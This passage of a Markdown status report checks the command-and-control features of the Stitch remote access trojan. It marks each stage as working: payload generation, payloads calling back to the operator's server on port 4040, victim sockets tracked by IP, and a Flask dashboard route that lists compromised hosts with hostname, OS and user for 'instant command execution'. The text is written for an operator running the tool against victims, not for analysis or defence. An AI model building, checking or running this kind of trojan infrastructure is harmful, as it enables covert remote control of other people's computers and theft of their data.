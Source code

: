 **Status:** ✅ WORKING
- Command executes payload generation
- Payloads connect to port 4040 automatically
- AES encryption configured from library

---

### 3. Target Connection
**File:** `Application/stitch_cmd.py` (lines 86-117)

When a victim runs the payload:
1. Payload initiates connection to `BHOST:BPORT` (your server)
2. Server accepts connection: `server.accept()`
3. Connection added to `inf_sock` dictionary: `self.inf_sock[addr[0]] = client_socket`
4. Target IP becomes the key, socket connection is the value
5. Connection logged: `st_print('[+] New successful connection from {}'.format(addr))`

**Status:** ✅ WORKING
- Connections stored in `server.inf_sock` dictionary
- Web interface reads from same dictionary (line 447, 522, 543)
- Real-time connection tracking active

---

### 4. Connection Display in Web Dashboard
**File:** `web_app_real.py` (lines 441-530)
```python
@app.route('/api/connections')
def list_connections():
    server = get_stitch_server()
    active_ips = list(server.inf_sock.keys())  # Get REAL connected targets
    
    for ip in server.inf_sock.keys():
        active_conns.append({
            'ip': ip,
            'port': server.inf_port.get(ip),
            'hostname': config.get(ip, 'hostname'),
            'os': config.get(ip, 'os'),
            'user': config.get(ip, 'user'),
            'status': 'online'
        })
```

**Frontend:** `static/js/app_real.js` (lines 260-313)
- Displays connection cards with target info
- Shows ONLINE/OFFLINE status
- Quick action buttons for instant command execution

**Status:** ✅ WORKING
- Web dashboard shows REAL connections
- Uses same `inf_sock` dictionary as CLI
- Real-time updates via WebSocket (5-second refresh)

---
